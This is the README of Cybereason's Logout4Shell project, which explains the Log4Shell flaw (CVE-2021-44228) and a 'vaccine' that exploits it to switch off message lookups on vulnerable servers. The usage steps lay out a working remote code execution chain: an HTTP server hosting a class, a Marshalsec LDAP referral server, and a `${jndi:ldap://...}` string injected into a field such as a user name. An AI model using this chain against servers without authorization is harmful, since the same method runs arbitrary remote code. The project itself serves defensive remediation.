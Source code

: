 # Logout4Shell
![logo](https://github.com/Cybereason/Logout4Shell/raw/main/assets/CR_logo.png)

## Description 
A vulnerability impacting Apache Log4j versions 2.0 through 2.14.1 was disclosed on the project’s Github on December 9, 2021. The flaw has been dubbed “Log4Shell,”, and has the highest possible severity rating of 10. Software made or managed by the Apache Software Foundation (From here on just "Apache") is pervasive and comprises nearly a third of all web servers in the world—making this a potentially catastrophic flaw.
The Log4Shell vulnerability CVE-2021-44228 was published on 12/9/2021 and allows remote code execution on vulnerabe servers.

While the best mitigation against this vulnerability is to patch log4j to
2.15.0 and above, in Log4j version (>=2.10) this behavior can be mitigated by
setting system property `log4j2.formatMsgNoLookups` to `true` or by removing
the JndiLookup class from the classpath. 
Additionally, if the server has Java runtimes >= 8u121, then by default, the
settings `com.sun.jndi.rmi.object.trustURLCodebase` and
`com.sun.jndi.cosnaming.object.trustURLCodebase` are set to “false”, mitigating this risk.

However, enabling these system property requires access to the vulnerable servers as well as a restart. 
The [Cybereason](https://www.cybereason.com) research team has developed the
following code that _exploits_ the same vulnerability and the payload therein
forces the logger to reconfigure itself with the vulnerable setting disabled -
this effectively blocks any further attempt to exploit Log4Shell on this server.

This Proof of Concept is based on [@tangxiaofeng7](https://github.com/tangxiaofeng7)'s [tangxiaofeng7/apache-log4j-poc](https://github.com/tangxiaofeng7/apache-log4j-poc)

However, this project attempts to fix the vulnerability by using the bug against itself.

You can learn more about Cybereason's "vaccine" approach to the Apache Log4Shell vulnerability (CVE-2021-44228) on our website.

Learn more: [Cybereason Releases Vaccine to Prevent Exploitation of Apache Log4Shell Vulnerability (CVE-2021-44228)](https://www.cybereason.com/blog/cybereason-releases-vaccine-to-prevent-exploitation-of-apache-log4shell-vulnerability-cve-2021-44228)

## How it works
The payload and exploit below use the java runtime to reconfigure the logger. 
Prior to reconfiguring the global setting
`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS` is set to True, disabling message
format lookups and preventing further exploitation of this attack

## How to use

1. Download this report and build it 

   1.1 `git clone https://github.com/cybereason/Logout4Shell.git`

   1.2 build it - `mvn package`

   1.3 `cd target/classes`

   1.4 run the webserver - `python3 -m http.server 8888`

2. Download, build and run Marshalsec's ldap server

   2.1 `git clone https://github.com/mbechler/marshalsec.git`

   2.2 `mvn package -DskipTests`

   2.3 `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<IP_OF_PYTHON_SERVER_FROM_STEP_1>:8888/#Log4jRCE"`

3. To immunize a server

   3.1 enter `${jndi:ldap://<IP_OF_LDAP_SERVER_FROM_STEP_2>:1389/a}` into a vulnerable field (such as user name)


## DISCLAIMER: 
The code described in this advisory (the “Code”) is provided on an “as is” and
“as available” basis may contain bugs, errors and other defects. You are
advised to safeguard important data and to use caution. By using this Code, you
agree that Cybereason shall have no liability to you for any claims in
connection with the Code. Cybereason disclaims any liability for any direct,
indirect, incidental, punitive, exemplary, special or consequential damages,
even if Cybereason or its related parties are advised of the possibility of
such damages. Cybereason undertakes no duty to update the Code or this
advisory.
